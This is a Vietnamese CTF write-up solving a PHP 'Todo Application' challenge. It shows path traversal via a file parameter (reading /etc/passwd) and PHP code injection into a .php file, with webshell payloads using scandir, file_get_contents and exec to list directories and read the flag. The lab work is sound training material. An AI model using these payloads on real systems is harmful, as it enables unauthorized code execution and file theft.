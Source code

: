 ```yaml
---
title: Write-Up Todo Application
date: 2023-10-05 18:34:01 +0700
categories: [CTF, Cookie Hân Hoan, Write-Up]
tags: [web, write-up, ctf]     # TAG names should always be lowercase
---
```

ĐỊA CHỈ: [https://battle.cookiearena.org/challenges/web/todo-application](https://battle.cookiearena.org/challenges/web/todo-application)

## **Challenge Details**

All your work will be saved to a checklist in the todo.txt file. Can a PHP Web Shell be created on this server? Could you try and read FLAG? (Chắc lại phải RCE ời).

- **Flag Location: /flagXXXX.txt**
- **Flag Format: CHH{XXX}**
- **Credits: YesWeHack**

## **Tags**

- Code Injection
- PHP
- YesWeHack

## **Web Analysis:**

Tại `/` trang web:

Quan sát ta thấy 1 ô input và 1 đoạn code PHP hmm.

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled.png)

Mình thử nhập bất kì vào ô input và ấn enter.

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%201.png)

Ta quan sát thấy và rằng xuất hiện 2 parameter `?add` và `&fileTodo` 

Hiểu nhanh là `?add=input_strings` và  `&fileTodo=_input_file` —> **+1 idea test bug path traversal**

## **Source Code Analysis:**

Này không copy được code nên mình giải thích nhanh nhé:

khai báo biến $file với giá trị là todo.txt khi input ta nhập vào checkbox và nó sẽ set vào param là ?add + với $file là todo.txt.

Nên bất kì mình nhập vào ô input thì nó đều ghi vào file.

Nhưng đoạn code không có thêm blacklist hay whitelist kiểm tra về ghi mã độc và kiểm tra đuôi file. Nên đều này có thể dẫn đến hacker có thể ghi 1 file webshell vào input và đỗi đuôi file từ .txt sang .php dẫn dến có thể RCE hệ thống.

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%202.png)

yaaa kiểm chứng nào.

## **Exploiting Code Injection, Path traversal:**

Chứng minh có bug path traversal ( Là 1 hacker giỏi không bao giờ bỏ sót bugs, dù nó không có Flag trong đó nhưng vẫn check nhé).

### Cách 1: sử dụng hàm scandir và file_get_contents

Gói tin ban đầu.

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%203.png)

Thử thêm ../../etc/passwd vào $filetodo xem có được hay không nhé.

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%204.png)

Bèm có bugs path traversal luôn, lòi luôn cái path file index.php 🙂 (do file flag random nên không xem được bằng lỗi này, phải RCE thôi)

đoạn code trong cái ảnh ở trên nè

`/var/www/app/index.php`

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%205.png)

Chứng minh ghi được code php và thay đỗi đuôi file.

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%206.png)

Ghi vào khi báo bugs gì giờ test `/info.php` xem. 

Tèn ten được luôn đây này, giờ thì làm cái file shell và đọc file flag thôi nhỉ?

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%207.png)

Nhưng mình test 7749 cách ghi shell nhưng phát hiện bị disable funtions nên hết ghi được file shell
(à không phải hết mà do test thiếu case 🙂 nó sẽ ở cách 2 nhé, giờ mình chỉ cách bị disable funtions)

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%208.png)

Tuy vậy mình phát hiện ra rằng nó không hề disable `file_get_contents` và `scandir` .

- `scandir` : liệt kê tất cả các file (giống cmd ls trên ls)
- `file_get_contents` : đọc file

Giờ code nhẹ nhé

Search google về scandir thì có sẵn rồi : [ở đây nè](https://www.w3schools.com/php/func_directory_scandir.asp)

ở khúc bug path traversal ấy, ../../../ 3 lần là quay về thư mục gốc nên sửa lại trong này để liệt kê các file ở thư mục gốc nhé.

Payload: 

```php
<?php
$dir = "../../../";
$a = scandir($dir);
print_r($a);
?>
```

Lười ghi nên copy past qua đây cho lẹ

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%209.png)

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%2010.png)

Send và đọc file `1.php`

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%2011.png)

1 file pha ke và 1 file real.

biết được tên file flag rồi thì dùng `file_get_contents` đọc ra thôi.

Payload:

```php
<?php
$dir = "../../../";
$a = scandir($dir);
$b =file_get_contents("../../../flagqsBKh.txt");
print_r($a);
print_r($b);
?>
```

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%2012.png)

DONE cách 1

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%2013.png)

### Cách 2: sử dụng hàm EXEC RCE.

Mình đã test thiếu case này do không khai báo biến. Để rồi mò luôn cả CVE của php lạc hướng luôn :<

Bình thường mình test webshell sẽ kiểu như này.

```php
<?php exec(id); ?>
```

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%2014.png)

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%2015.png)

Nó không cho in ra, nên mình đã loại trừ nó nhanh chóng để test case khác.

Nhưng mình đã sai, giờ cùng sửa nhé.

Vì trang web hình như không cho `echo` ra trực tiếp nên mình sẽ khai báo biến và test lại.

Payload:

```php
<?php
$a = exec(id);
echo($a)
?>
```

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%2016.png)

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%2017.png)

Giờ thì thực thi webshell bình thường
Do echo chỉ dòng đầu tiên nên thêm `ls /f*` or `ls /flag*` để show file flag nhé <3

```php
<?php
$a = exec('ls /f*');
echo($a)
?>
```

Xem file và cat file nhé

donee =)))

Cảm ơn các bạn đã xem write up của mình =)) có góp ý hay thắc mắc add mình qua discord nha 

id discord : `ren6806`
